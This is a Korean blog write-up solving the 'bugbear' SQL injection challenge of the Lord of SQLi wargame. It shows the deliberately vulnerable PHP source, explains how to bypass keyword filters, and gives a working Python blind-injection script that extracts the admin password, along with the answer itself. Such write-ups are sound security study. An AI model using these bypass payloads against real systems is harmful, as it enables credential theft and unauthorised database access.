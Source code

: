 ```yaml
---
layout: post
title: ! "[LOS] bugbear"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - bugbear
  - write-up
---
```


![]({{ site.baseurl }}/assets/posts/los/bugbear.png)

`query : select id from prob_bugbear where id='guest' and pw='' and no=`

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

bugbear 문제에서는 darknight문제와 비교하여 =,like,0x,공백이 추가 되었다.
다른 분들의 darknight 풀이를 보니 hex값을 이용하신 분들도 꽤 계셔서 0x 필터링이 생긴 것 같다.

1. 공백 -> %09
2. =,like -> in() 함수
3. 0x -> char() 함수

=과 like를 우회하기 위해 >,< 도 사용한다고 하여 < 를 이용해 패스워드의 길이를 구해보았다.

![]({{ site.baseurl }}/assets/posts/los/bugbear_admin.png)

### 코드
```php
from requests import get
import string
from time import sleep


url ="https://los.eagle-jump.org/bugbear.php"
cookies = dict(PHPSESSID="")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""

for i in range(1,20):
    parameter = "?pw=1&no=1||length(pw)<"+str(i)
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("Hello admin") > 0:
        length = i + 1
        print("password length is "+str(i))
        break
for i in range(1, length):
    for a in range(48,128):
        parameter ="?pw=1&no=1||id%09in(char(97,100,109,105,110))%26%26mid(pw,"+str(i)+",1)%09in(char("+str(a)+"))"
        new_url = url + parameter
        r = get(new_url, cookies=cookies)

        if r.text.find("Hello admin") > 0:
            print(str(i) + " -> "+chr(a))
            result += chr(a)
            break

    if i == 1 and result == "":
        print("password not found")
        exit(0)

    if i == length-1:
        print("\npassword is "+result)
        print("\n")
```

저번 코드와 달라진 점이라면 길이를 구하는 부분과 char(~) 함수를 in() 으로 감싸준 것과 공백을 %09로 바꾼 것이다.

![]({{ site.baseurl }}/assets/posts/los/bugbear_result.png)

결과에서 패스워드의 길이가 9로 나온 이유는 length(pw)<9 를 했을 때 Hello admin이 떴기 때문에 9가 뜬 것이다.
원래 패스워드의 길이는 8이다.
마찬가지로 위 결과에서 알파벳을 소문자로 바꿔주고 `?pw=735c2773` 를 해주면 된다.

![]({{ site.baseurl }}/assets/posts/los/bugbear_clear.png)
